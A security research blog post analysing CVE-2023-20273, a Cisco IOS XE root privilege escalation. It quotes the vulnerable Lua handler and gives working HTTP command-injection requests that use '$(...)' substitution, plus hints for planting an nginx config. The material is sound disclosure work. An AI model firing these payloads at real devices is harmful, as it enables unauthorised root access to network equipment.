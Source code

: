+++
title = "CVE-2023-20273: IOS XE root priv escalation"
url = "2023/10/cisco-root-privesc"
description = "CVE-2023-20273: IOS XE root privilege escalation"
tags = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco",
]
date = "2023-10-31 23:20:00"
categories = [
    "vulnerability",
    "research",
    "LeakIX",
    "cisco"
]
image = "cover.png"
author = "BloodyShell"
author_link = "https://twitter.com/leak_ix"
+++

On the 28th of October the exploit for `CVE-2023-20198` was released by
[SECUINFRA](https://twitter.com/SI_FalconTeam/status/1718346358950711807) after
being captured on one of their honeypots.

While it enables full admin control of IOS, the question still remained about
the implantation of the backdoor.

<!--more-->

**Update 2023/11/01:**
[Joel Land](https://twitter.com/joel_land/status/1719708750741639539) shared
with us on Twitter that a different payload is necessary on his Catalyst 8000v
running version 17.4.1a. We've added a payload for v17.

## Taking step back

Contrary to IOS, IOS XE is based on a Linux Kernel. In the following picture
`CVE-2023-20198` gets you the `IOSd` layer.

![Picture](/iosxe/iosxe.png)

We're however looking for the NGINX config which is at the `IOSd sub-system`
layer.

### Looking for leads

Our first lead comes from the
[Talos Intelligence blog post](https://blog.talosintelligence.com/active-exploitation-of-cisco-ios-xe-software/)
mentioning the following log entry:

```
%WEBUI-6-INSTALL_OPERATION_INFO: User: username, Install Operation: ADD filename
```

Our second lead comes from the diff made by
[Horizon3](https://www.horizon3.ai/cisco-ios-xe-cve-2023-20198-theory-crafting/):
![Picture](/iosxe/diff.webp) Image credit: Horizon3

### Bunch of Lua

After investigation for Lua endpoints in the Webui we found a candidate matching
both leads:

In `/var/scripts/softwareMgmt.lua` we find the `installAdd` route:

```lua
if method == "POST" then
    local inp = {}
    local req_body = ngx.var.request_body
    if not utils.isNilOrEmptyString(req_body) then
        inp = cjson.decode(req_body)
    end
    local installParams = {}
    if not getInstallInProgress() then
        if lastTag == "installAdd" then
            validateSmuRequest(inp)
            local url, destinationFile = generateUrlAndDestination(inp)
            writeInstallOperationType(inp.operation_type)
            installParams.operation = "install_add"
            installParams.filename = destinationFile
            writeSmuInstallParams(installParams)
            local installMethod = inp.installMethod
            -- Install involved file download, which might take long, so it will run in the background.
            local command = 'CMD_SETSID ' .. smu_install_script .. ' --operation install_add --operation_type ' .. inp.operation_type .. ' --install_method ' .. installMethod .. ' --remote_path "' .. url .. '" --file_path "' .. destinationFile .. '" &'
            utils.runOSCommand(command)
            ngx.exit(ngx.HTTP_OK)
        endif
    endif
endif
```

As highlighted by Horizon3, the ipv6 validation method has been updated. It
turns out we can pass an `ipaddress` as parameter to this endpoint which will
end-up in the `url` variable.

Due to a bug in the validating conditions, the only requirement for our IPv6 is
to contain 3 fields delimited by `:`.

Some other validation steps in `validateSmuRequest` and `formValidate` forbids
us from using characters like `"`, `'`, ect ... in our payload.

### Command substitution to the rescue

Using command substitution allows us to bypass any form of validation.

Our final payload after creating a user and authing with `CVE-2023-20198` looks
like:

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"installMethod":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

or for v17

```http request
POST /webui/rest/softwareMgmt/installAdd HTTP/1.1
Host: 10.0.0.1
Content-Length: 42
Cookie: Auth=<cookie from valid auth>
X-Csrf-Token: <token from /webui/rest/getDeviceCapability>

{"mode":"tftp","ipaddress":"1000:1000:1000: $(echo hello world > /var/www/hello.html)","operation_type":"SMU","filePath":"test","fileSystem":"flash:"}
```

### Nginx config

Knowing all of this, one can therefore drop a file in
`/usr/binos/conf/nginx-conf/cisco_service.conf` and restart the webserver to
apply the configuration.

`openssl base64 -d` can be used to bypass any limitation on character
limitation.
